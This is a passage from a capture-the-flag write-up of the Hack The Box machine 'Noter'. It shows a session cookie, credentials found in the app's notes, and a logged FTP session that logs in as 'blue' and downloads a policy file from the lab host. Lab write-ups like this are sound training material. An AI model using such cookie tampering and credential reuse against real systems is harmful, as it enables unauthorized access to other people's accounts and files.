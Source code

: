 Got the cookie: `eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YwepEw.STvhebuip88zrjlFJq-JXORQkiA`

After loggin in, I found two notes. One of them says: 

![hackthebox noter](https://th3redtea.github.io/assets/img/Screenshot_2022-08-30_13-28-04.png)

I got: 

password: `blue@Noter!`
new user: `ftp_admin`

## Access to FTP
 
Let's access FTP. 

```bash

└─$ ftp 10.10.11.160 21                                                                                                                                                           
Connected to 10.10.11.160.
220 (vsFTPd 3.0.3)
Name (10.10.11.160:user): blue
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||48719|)
150 Here comes the directory listing.
drwxr-xr-x    2 1002     1002         4096 May 02 23:05 files
-rw-r--r--    1 1002     1002        12569 Dec 24  2021 policy.pdf
226 Directory send OK.
ftp> cd files
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||30461|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> cd ../
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||25409|)
150 Here comes the directory listing.
drwxr-xr-x    2 1002     1002         4096 May 02 23:05 files
-rw-r--r--    1 1002     1002        12569 Dec 24  2021 policy.pdf
226 Directory send OK.
ftp> get policy.pdf
local: policy.pdf remote: policy.pdf
229 Entering Extended Passive Mode (|||33923|)
150 Opening BINARY mode data connection for policy.pdf (12569 bytes).
100% |************************************************************************************************************************************************| 12569        2.40 MiB/s    00:00 ETA
226 Transfer complete.
12569 bytes received in 00:00 (91.40 KiB/s)
ftp> 

```
